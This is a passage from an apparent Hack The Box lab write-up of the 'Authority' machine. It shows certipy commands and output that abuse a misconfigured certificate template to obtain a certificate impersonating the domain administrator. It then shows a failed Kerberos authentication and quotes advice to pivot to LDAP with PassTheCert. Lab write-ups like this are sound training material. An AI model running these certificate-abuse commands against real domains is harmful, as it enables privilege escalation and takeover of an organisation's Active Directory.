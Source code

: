 The result is a certificate plus private key saved in
`administrator_authority.pfx`:



    oxdf@hacky$ certipy req -username '0xdf$' -password 0xdf0xdf0xdf -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 3
    [*] Got certificate with multiple identifications
        UPN: 'administrator@authority.htb'
        DNS Host Name: 'authority.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator_authority.pfx'



### PassTheCert

#### Auth \[Fail\]

Typically at this point I would use the `auth` command to get the NTLM
hash for the administrator user:



    oxdf@hacky$ certipy auth -pfx administrator_authority.pfx 
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Found multiple identifications in certificate
    [*] Please select one:
        [0] UPN: 'administrator@authority.htb'
        [1] DNS Host Name: 'authority.htb'
    > 0
    [*] Using principal: administrator@authority.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)



This happens "when a domain controller doesn't have a certificate
installed for smart cards", according to [this
post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)
from Specterops. Specifically, it happens because "the DC isn't properly
set up for PKINIT and authentication will fail".

The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable
> certificate template but the resulting certificate fails for Kerberos
> authentication, you can try authenticating to LDAP via SChannel using
> something like
> [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will
> only have LDAP access, but this should be enough if you have a
> certificate stating you're a domain admin.

